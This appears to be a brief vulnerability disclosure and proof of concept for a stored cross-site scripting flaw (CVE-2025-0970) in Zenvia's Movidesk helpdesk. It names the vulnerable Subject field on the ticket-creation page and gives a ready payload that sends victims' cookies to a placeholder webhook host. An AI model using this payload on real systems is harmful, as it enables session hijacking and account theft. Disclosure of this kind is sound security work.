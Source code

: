 # CVE-2025-0970
The Movidesk System by Zenvia is vulnerable to Stored Cross Site Scripting.

**Affected Version: < 25.01.22**

**OBS: For this exploit, you must be authenticated!**


## POC

This vulnerability resides in the /Ticket/Create page in Subject parameter.

Its possible to manipulate the parameter to insert any JavaScript code to the victim browser.

Payload example: `<img src onerror="this.src='http://YOUR-WEBHOOK-SITE?c='+document.cookie">`.

Endpoint where the XSS is triggered (ticket view): `https://IP/Ticket`

https://IP/Ticket/Create

---

## Reference

https://www.movidesk.com/